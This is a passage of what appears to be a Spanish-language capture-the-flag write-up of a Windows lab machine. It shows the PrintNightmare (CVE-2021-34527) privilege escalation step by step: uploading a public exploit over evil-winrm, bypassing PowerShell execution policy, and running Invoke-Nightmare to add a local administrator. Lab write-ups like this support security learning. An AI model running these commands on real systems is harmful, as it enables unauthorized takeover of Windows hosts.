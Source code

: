 ```
TCP        0.0.0.0               49412         0.0.0.0               0               Listening         560             services
TCP        0.0.0.0               49413         0.0.0.0               0               Listening         568             lsass
TCP        10.129.190.165        139           0.0.0.0               0               Listening         4               System
```

Le he pasado estos puertos a `PentestGPT` y resulta que el servicio `spoolsv` es el de una impresora que puede tener la vulnerabilidad `PrintNightmare (CVE-2021-34527)` . Para explotarla nos vamos a descargar este `exploit` [https://github.com/JohnHammond/CVE-2021-34527](https://github.com/JohnHammond/CVE-2021-34527). Lo primero es depositar el binario descargado en la misma carpeta desde la que nos hemos conectado con evil-winrm y subirlo a la máquina víctima

```
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> upload CVE-2021-34527.ps1
                                        
Info: Uploading /home/justice-reaper/Desktop/Driver/content/CVE-2021-34527.ps1 to C:\Windows\Temp\Priivesc\CVE-2021-34527.ps1
                                        
Data: 238084 bytes of 238084 bytes copied
                                        
Info: Upload successful!
```

Al intentar `ejecutar` el `exploit` nos da este error

```
*Evil-WinRM* PS C:\windows\temp\Priivesc> Import-Module .\cve-2021-34527.ps1
File C:\windows\temp\Priivesc\cve-2021-34527.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\cve-2021-34527.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

Para `cambiar` la `política de ejecución` para la sesión actual lo podemos hacer ejecutando

```
*Evil-WinRM* PS C:\windows\temp\Priivesc> Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

`Ejecutamos` el `exploit` y `creamos` un usuario `Administrator`

```
*Evil-WinRM* PS C:\windows\temp\Priivesc> Import-Module .\cve-2021-34527.ps1
*Evil-WinRM* PS C:\windows\temp\Priivesc> Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user john as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```
